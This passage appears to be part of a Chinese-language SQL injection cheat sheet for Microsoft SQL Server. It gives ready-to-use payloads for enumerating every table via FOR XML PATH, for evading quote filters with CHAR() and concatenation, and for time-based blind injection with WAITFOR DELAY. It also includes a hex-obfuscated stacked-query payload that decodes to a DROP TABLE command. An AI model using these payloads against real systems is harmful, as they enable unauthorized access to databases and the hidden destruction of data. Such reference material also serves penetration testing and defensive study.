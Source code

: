 MSSQL2005及更高版本中使用xml for path 函数作为连接符，可一次性查询所有表。

```
SELECT table_name %2b ', ' FROM information_schema.tables FOR XML PATH('')        SQL Server 2005+

```

附： 代码可以用十六进制进行混淆

```
' AND 1=0; DECLARE @S VARCHAR(4000) SET @S=CAST(0x44524f50205441424c4520544d505f44423b AS VARCHAR(4000)); EXEC (@S);--

```

避免引用序号

```
SELECT * FROM Users WHERE username = CHAR(97) + CHAR(100) + CHAR(109) + CHAR(105) + CHAR(110)

```

字符串连接

```
SELECT CONCAT('a','a','a'); (SQL SERVER 2012)
SELECT 'a'+'d'+'mi'+'n';

```

### 条件语句

```
IF
CASE

```

示例：

```
IF 1=1 SELECT 'true' ELSE SELECT 'false';
SELECT CASE WHEN 1=1 THEN true ELSE false END;

```

附：IF不能在SELECT语句中使用。

### 时间延迟:

```
WAITFOR DELAY 'time_to_pass';
WAITFOR TIME 'time_to_execute';

```

示例：

```
IF 1=1 WAITFOR DELAY '0:0:5' ELSE WAITFOR DELAY '0:0:0';

```
